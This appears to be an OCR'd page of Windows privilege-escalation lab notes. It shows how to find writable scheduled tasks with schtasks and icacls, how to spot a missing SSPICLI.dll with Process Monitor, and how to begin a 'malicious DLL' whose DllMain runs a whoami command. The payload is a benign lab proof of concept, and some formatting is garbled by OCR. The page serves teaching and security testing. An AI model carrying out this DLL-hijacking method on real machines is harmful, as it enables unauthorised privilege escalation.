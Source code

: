 ```
We want to identify anything running in non-standard locations as well as
running a a higher privilege user.
```
_Sources:_

- ALPC-TaskSched-LPE
- task scheduler local privilege escalation vulnerability in the ALPC interface

**DEMO: Finding vulnerable Scheduled Tasks**

1. The following commands can be used to idenitfy vulnerable tasks using CMD and PowerShell:
    a.schtasks /query /fo LIST /v
       ▪ List all Tasks in List format
b. schtasks /query /fo LIST /v | Select-String -Pattern "STRING OR REGEX PATTERN"
▪ Select-String can utilize regex to output only values that match
    c. schtasks /query /fo LIST /v | Select-String -Pattern "Task To Run" -CaseSensitive
       -Context 0,
          ▪ Searches for **Task To Run** and outputs that line, along with the 6 lines following it in
             order to show the **Run As User** setting too.
d. schtasks /query /fo LIST /v | Select-String -Pattern "Task To Run" -CaseSensitive
|Select-String -Pattern "COM handler" -NotMatch
▪ Excludes results that we dont want to seein order to help narrow down vulnerable
directory locations
    e. Open and view tasks from the Task Scheduler GUI Application
2. Identify the following vulnerable Task:
    ◦ C:\Users\student\exercise_2\putty.exe
3. Run: sigcheck c:\users\student\exercise_2\putty.exe
    ◦ Determines information we can use to research for vulnerabilities
4. Run: icacls "c:\users\student\exercise_2"
    ◦ Check if the directory can be written to, as it is non-standard

**DEMO: DLL hijacking (Writable Path, Vulnerable Scheduled Task)**

**Process Monitor**

1. Run: procmon /AcceptEula


2. Run: C:\Users\student\exercise_2\putty.exe
3. Configure the following filters by pressing CTRL + L to open the filter menu:
    a. **Process Name** contains putty.exe
b. **Path** contains .dll
c. **Result** is NAME NOT FOUND

As you can see SSPICLI.dll is identified. As procmon requires Admin privileges, ways to perform
testing can be locally within a development/lab environment.

**Creating Malicious DLL**
Since we can see that it is trying load a .dll that is not present, and that the directory where
**putty.exe** is located is writable and non-standard we can create a malicious DLL.

1. Create bad.c and specify desired commands the execute via WinExec():
    a.nano bad.c

```
#include <windows.h>
int execCommand()
{
 WinExec("cmd /C whoami > FINDME_1.txt", 1);
 return 0;
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 execCommand();
 return 0;
}
```
